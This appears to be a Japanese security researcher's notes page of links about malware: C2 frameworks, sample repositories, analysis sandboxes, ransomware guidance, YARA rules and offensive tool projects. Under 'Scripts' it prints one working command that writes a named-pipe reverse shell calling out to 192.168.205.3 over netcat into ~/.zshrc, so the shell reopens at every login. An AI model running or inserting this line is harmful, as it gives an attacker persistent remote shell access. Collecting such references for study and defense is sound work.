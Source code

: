 # マルウェア

## C2

https://howto.thec2matrix.com/

https://github.com/BishopFox/sliver

## 検体の入手

https://objective-see.org/malware.html

[マルウェア検体を入手する方法](https://www.japan-secure.com/entry/blog-entry-198.html)

[eicar test file](https://www.eicar.org/?page_id=3950)

[SourceFinder: Finding Malware Source-Code from Publicly Available Repositories in GitHub](https://www.usenix.org/system/files/raid20-rokon.pdf)

https://virusshare.com/

https://urlhaus.abuse.ch/

https://github.com/topics/malware-samples

https://github.com/ytisf/theZoo

https://github.com/rshipp/awesome-malware-analysis

https://github.com/vxunderground/MalwareSourceCode

https://github.com/offensive-security/exploitdb

## 検体

- rootkit
  - https://github.com/enzolovesbacon/inficere
- backDoor
  - https://github.com/mosca1337/OSX-Peristant-BackDoor

## マルウェア解析

- [Free Automated Malware Analysis Sandboxes and Services](https://zeltser.com/automated-malware-analysis/)
  - https://any.run/
- https://www.sans.org/blog/how-you-can-start-learning-malware-analysis/
- [マルウェア解析に必要な素養](https://hackmd.io/@K-atc/S1kLEr5x)
- ブログ
  - https://www.mbsd.jp/research/malware/#contents
  - [東京五輪に関係する日本語のファイル名を持つマルウェア(ワイパー)の解析](https://www.mbsd.jp/research/20210721/blog/)

## Ransomeware

[Ransomware Attacks and Types – How Encryption Trojans Differ](https://www.kaspersky.com/resource-center/threats/ransomware-attacks-and-types)

[ランサムウェア攻撃で悪用された正規ツールを解説](https://blog.trendmicro.co.jp/archives/28681)

https://www.cisa.gov/stopransomware

[侵入型ランサムウェア攻撃を受けたら読むFAQ](https://www.jpcert.or.jp/magazine/security/ransom-faq.html)

## 脅威データベース

https://www.trendmicro.com/vinfo/jp/threat-encyclopedia/

https://urlhaus.abuse.ch/

## マルウェア検知ツール

https://github.com/VirusTotal/yara

https://blog.malwarebytes.com/security-world/technology/2017/09/explained-yara-rules/

https://github.com/hasherezade/hollows_hunter

## VirusTotal

https://www.virustotal.com/gui/

https://keepmealive.jp/about-virustotal/

## マルウェア、ウイルス一覧

- Emotet
  - https://www.ipa.go.jp/security/announce/20191202.html
  - https://github.com/JPCERTCC/EmoCheck
- Phoenix Cryptolocker
  - https://cloudsek.com/threatintelligence/phoenix-cryptolocker-ransomware-threat-intel-advisory/

## Scripts

```bash
# zshrc で永続化
echo '(rm ./pipe; mkfifo ./pipe; cat ./pipe | /bin/sh -i 2>&1|nc 192.168.205.3 1337 > ./pipe &)' >> ~/.zshrc

```

## YARA

https://github.com/JPCERTCC/jpcert-yara

## Development

https://github.com/redcode-labs/Coldfire

https://github.com/tiagorlampert/CHAOS

https://github.com/EgeBalci/ARCANUS

https://github.com/EgeBalci/EGESPLOIT

## Tools

https://github.com/sweetsoftware/Ares

## 参考

[Goで書かれたマルウェアが増加傾向--APTと犯罪グループの両方が利用](https://japan.zdnet.com/article/35167172/)

[ストップ！ ランサムウェア　ランサムウェア特設ページ - NISC](https://security-portal.nisc.go.jp/stopransomware/)

[Ransomware as a Service Innovation Curve](https://www.coveware.com/blog/2022/1/26/ransomware-as-a-service-innovation-curve)
